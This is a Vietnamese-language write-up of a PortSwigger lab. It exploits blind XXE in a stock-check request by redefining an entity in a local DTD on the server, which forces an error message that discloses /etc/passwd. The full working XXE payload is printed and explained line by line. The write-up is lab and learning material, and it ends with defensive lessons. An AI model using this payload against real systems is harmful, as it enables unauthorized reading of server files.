


# Write-up: Exploiting XXE to retrieve data by repurposing a local DTD

### Tổng quan
Khai thác lỗ hổng XML External Entity (XXE) trong chức năng kiểm tra kho hàng (check stock), sử dụng kỹ thuật tái định nghĩa entity trong một DTD cục bộ có sẵn trên server (`file:///usr/share/yelp/dtd/docbookx.dtd`) để đọc file `/etc/passwd`, kích hoạt lỗi để hiển thị nội dung file, và hoàn thành lab.

### Mục tiêu
- Sử dụng XXE với local DTD để truy xuất nội dung file /etc/passwd và kích hoạt lỗi chứa dữ liệu mục tiêu.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Kiểm tra chức năng check stock trên giao diện web với một sản phẩm bất kỳ 
- Trong Burp Suite Proxy, bắt được yêu cầu:
    
    - **Quan sát**: Yêu cầu gửi dữ liệu XML, gợi ý khả năng tồn tại lỗ hổng XXE, nhưng server không hiển thị kết quả trực tiếp (Blind XXE):

2. **Khai thác (Exploitation)**
- Gửi yêu cầu `POST /product/stock` tới Burp Repeater, sử dụng kỹ thuật XXE với local DTD để đọc file `/etc/passwd`:
    ```xml
    <!DOCTYPE message [
        <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
        <!ENTITY % ISOamso '
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "
            <!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexisten/&#x25;file;&#x27;>"
            >
            &#x25;eval;
            &#x25;error;
        '>
        %local_dtd;
    ]>
    ```
- **Giải thích DOCTYPE**:
    - `<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">`: Tham chiếu tới file DTD cục bộ trên server.
    - `<!ENTITY % ISOamso '...'>`: Tái định nghĩa entity `ISOamso` (thường có trong docbookx.dtd) để chèn logic XXE:
        - `<!ENTITY % file SYSTEM "file:///etc/passwd">`: Định nghĩa entity file để đọc nội dung `/etc/passwd`
        - `<!ENTITY % eval "...">`: Định nghĩa entity `eval` để tạo một entity `error` chứa tham chiếu tới file không tồn tại (`file:///nonexistent/%file;`), kích hoạt lỗi hiển thị nội dung `%file` (tức `/etc/passwd`)
        - `%eval; %error;`: Kích hoạt logic để server xử lý và trả về lỗi.

- **Phản hồi**: Server trả về thông báo lỗi chứa nội dung file `/etc/passwd`: 
    
    - **Giải thích**: Lỗ hổng XXE cho phép tái định nghĩa entity trong DTD cục bộ, đọc file `/etc/passwd` và kích hoạt lỗi để hiển thị dữ liệu do server không vô hiệu hóa xử lý external entities.

- Kiểm tra trạng thái lab:
    

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng XXE bằng cách tái định nghĩa entity trong DTD cục bộ để truy xuất dữ liệu nhạy cảm và kích hoạt lỗi hiển thị dữ liệu.
- Nhận thức tầm quan trọng của việc vô hiệu hóa xử lý external entities và kiểm tra chặt chẽ DTD trong XML parser để ngăn chặn XXE.

### Tài liệu tham khảo
- PortSwigger: XML External Entity (XXE) Injection
- PortSwigger: Blind XXE vulnerabilities

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác XXE bằng kỹ thuật tái định nghĩa DTD cục bộ, truy xuất file nội bộ, và kích hoạt lỗi để hiển thị dữ liệu. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*